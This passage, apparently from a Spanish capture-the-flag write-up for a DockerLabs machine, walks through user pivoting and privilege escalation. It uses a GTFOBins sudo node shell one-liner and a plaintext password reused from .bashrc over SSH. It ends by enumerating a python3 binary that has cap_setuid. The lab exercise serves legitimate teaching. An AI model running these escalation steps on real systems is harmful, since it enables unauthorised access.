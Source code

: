 Segun [GTFoBins](https://gtfobins.github.io/gtfobins/node/#sudo) puedo obtener una shell con privilegios del usuario `calamardo`.

```terminal
bob@kali:~$ sudo -u calamardo /bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

$ id
uid=1003(calamardo) gid=1003(calamardo) groups=1003(calamardo),100(users)
```
```terminal
/home/kali/Documents/dockerlabs/raas:-$ script /dev/null -c bash
```

---
## User Pivoting 2

En el archivo `.bashrc` se encuentra una contraseña en texto claro asociada al usuario `patricio`.

```terminal
calamardo@kali:~$ cat .bashrc | grep patricio
# should be on the output of commands, not on the prompt patricio:Jap0n16ydcbd***
```

```terminal
/home/kali/Documents/dockerlabs/raas:-$ ssh patricio@127.17.0.2
patricio@127.17.0.2's password: Jap0n16ydcbd***
```

```terminal
patricio@kali:~$ id
uid=1001(patricio) gid=1001(patricio) groups=1001(patricio),100(users)
```

---
## Privilege Escalation

Al ejecutar un comando para listar archivos y directorios con permisos de escritura para el grupo, identifico un directorio interesante `.ssh`.

```terminal
patricio@kali:~$ for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done
./.local
./.ssh
```

En el directorio, se encuentra un archivo llamado `python3` con permisos de ejecución, lo cual no es habitual.

```terminal
patricio@kali:~$ ls -al .ssh/
-rwxr-xr-x 1 patricio patricio 8019136 Jan  5 16:48 python3

patricio@kali:~$ getcap .ssh/python3
.ssh/python3 cap_setuid=ep
```
